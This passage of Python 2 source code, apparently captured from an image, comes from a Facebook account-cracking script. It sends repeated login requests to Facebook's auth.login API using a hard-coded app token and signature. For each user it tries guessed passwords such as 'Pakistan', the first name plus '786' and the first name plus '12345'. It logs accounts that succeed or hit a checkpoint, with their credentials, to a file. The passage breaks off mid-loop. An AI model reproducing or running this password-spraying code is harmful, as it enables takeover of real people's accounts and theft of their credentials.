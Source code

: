 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = ('Pakistan')
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = a['first_name'] + '786'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '12345'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]: